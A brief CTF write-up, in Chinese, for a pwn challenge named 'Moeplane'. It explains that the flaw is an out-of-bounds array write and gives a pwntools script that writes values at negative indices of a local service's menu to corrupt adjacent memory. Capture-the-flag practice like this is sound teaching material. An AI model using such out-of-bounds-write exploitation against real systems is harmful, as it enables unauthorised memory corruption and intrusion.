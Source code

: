 # Moeplane

只是一个array out of bound write。就是需要自己测试velocity到底在哪个偏移处（不知道自己造个moeplane struct调试管用吗，我这里好像不太行，还是直接自己手动测试比较方便）
```py
from pwn import *
context.log_level="debug"
p=remote("127.0.0.1","54888")
def adjust(idx,value):
    p.sendlineafter(">",'1')
    p.sendlineafter(">",str(idx))
    p.sendlineafter(">",str(value))
adjust(-12-3,0x10)
adjust(-12-4,0x20)
adjust(-12-5,0x30)
adjust(-12-6,0x40)
adjust(-12-7,0x50)
p.interactive()
```
这题要给个binary就很简单了。但是只给了个struct定义，需要一点盲猜技术